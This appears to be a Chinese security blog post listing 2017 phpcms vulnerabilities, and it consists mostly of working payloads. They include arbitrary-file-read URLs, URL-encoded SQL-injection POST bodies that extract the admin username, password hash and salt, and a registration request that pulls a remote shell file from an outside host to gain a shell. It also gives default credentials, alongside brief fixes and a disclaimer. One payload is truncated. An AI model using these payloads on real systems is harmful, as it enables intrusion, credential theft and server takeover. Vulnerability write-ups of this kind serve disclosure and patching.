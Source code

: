 ```yaml
---
title: phpcms漏洞
date: 2017-04-12 09:07:42
comments: true
tags:
- phpcms漏洞
- 文件包含漏洞
- cms漏洞
categories: web安全
permalink: 01
password:
copyright: true
---
```

<blockquote class="blockquote-center">风华是一指流砂，苍老是一段年华</blockquote>
　　最近某位大牛说，将放出3个phpcms的0day漏洞，目前我所了解到的已经有2个phpcms漏洞被流传开来，并放出了poc。phpcms应用范围还是比较广的，在此记录分享一下几个最新的phpcms漏洞。
<!--more -->
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### phpcms 任意文件读取漏洞
更新于2017年5月4日
漏洞具体细节参考：http://bobao.360.cn/learning/detail/3805.html
#### 漏洞利用
方案一：
登录普通用户，访问链接：
```bash
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
```
获取分配的att_json,然后将这段json值带入到down类的init函数中去：
```bash
http://localhost/index.php?m=content&c=down&a=init&a_k=013ceMuDOmbKROPvvdV0SvY95fzhHTfURBCK4CSbrnbVp0HQOGXTxiHdRp2jM-onG9vE0g5SKVcO_ASqdLoOSsBvN7nFFopz3oZSTo2P7b6N_UB037kehz2lj12lFGtTsPETp-a0mAHXgyjn-tN7cw4nZdk10Mr2g5NM_x215AeqpOF6_mIF7NsXvWiZl35EmQ
```
方案二：
在未登录的情况下访问：
```bash
http://localhost/index.php?m=wap&c=index&a=init&siteid=1
```
获取当前的siteid,然后再访问:
```bash
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
POST_DATA:userid_flash=14e0uml6m504Lbwsd0mKpCe0EocnqxTnbfm4PPLW
```
#### 修复方案
升级至官方最新版本

### phpcms sql漏洞
#### Poc
存在sql注入漏洞的页面：
http://192.168.1.139:8080/phpcms/index.php?m=member&c=index&a=login
获取当前数据库，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bdatabase())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取当前用户，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
获取表名：
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2btable_name%2bfrom%2binformation_schema.tables%2bwhere%2btable_schema='phpcmsv9'%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
若要获取其他表名，修改limit即可。
获取用户名:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2busername%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取密码：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取到的密码为30位的md5，一般的MD5是32位，所以我们需要再获取后2位：
```bash
orward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(substring((select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c-2%252c2))%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
phpcms是加盐（salt）的，获取salt:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bencrypt%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
以上Poc来自：https://www.unhonker.com/bug/1834.html

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/
exp脚本可以参考：https://www.waitalone.cn/phpcmsv9-authkey-exp.html
漏洞细节请参考：http://mp.weixin.qq.com/s/cI-wbQyX-3WLhxJ5kqez4A

#### 漏洞修复方案
* 去掉modules\content\down.php文件

### phpcms注册页面getshell漏洞

* 存在的漏洞：php远程文件包含、任意文件上传
* 漏洞利用点：phpcms注册页面
* 利用类型：http post请求导致任意文件上传+getshell

#### Post Poc
```bash
siteid=1&modelid=11&username=newbie&password=newbie&email=newbie@qq.com&info[content]=<img src=http://shhdmqz.com/newbie.txt?.php#.jpg>&dosubmit=1&protocol=
```
注意：*http://shhdmqz.com/newbie.txt*为远程服务器上的shell文件，这个漏洞利用了远程文件包含与文件上传漏洞。

#### 漏洞利用细节
　　访问注册页面发送post包，重构info字段内容，写入远程包含的文件地址《*img src=http://shhdmqz.com/newbie.txt?.php#.jpg*》，newbie.txt为文件名，?.php#.jpg为构造的文件名，为了绕过后缀名限制。回包将会有报错信息，但文件可以上传成功，且报错信息中含有上传的文件路径，可用菜刀链接。

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/

#### 漏洞修复方案

暂时性修复：

* 关闭注册页面
* 关闭远程文件包含，即关闭allow_url_fopen

彻底性修复：
修改phpcms/libs/classes/attachement.class.php文件中的download函数在
foreach($remotefileurls as $k=>$file)循环中，大约是167行左右的位置，将
```bash
if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;            $filename = fileext($file);
```
修改成
```bash
$filename = fileext($k);
```

关于文件包含漏洞，可参考：[文件包含漏洞](http://thief.one/2017/04/10/2/)

### 任意文件读取漏洞
```bash
index.php?m=search&c=index&a=public_get_suggest_keyword&url=asdf&q=..\/..\/caches/error_log.php 
```
### phpcms敏感信息

* 默认账号密码：phpcms/phpcms
* 默认后台： http://www.xx.com/index.php?m=admin&c=index&a=login&pc_hash=   
* 会员中心地址：index.php?m=member&c=index&a=login 


*本篇将持续跟踪phpcms最新漏洞状况，并附上检测方法以及修复方案，协助管理员早日修复漏洞，谢谢！*


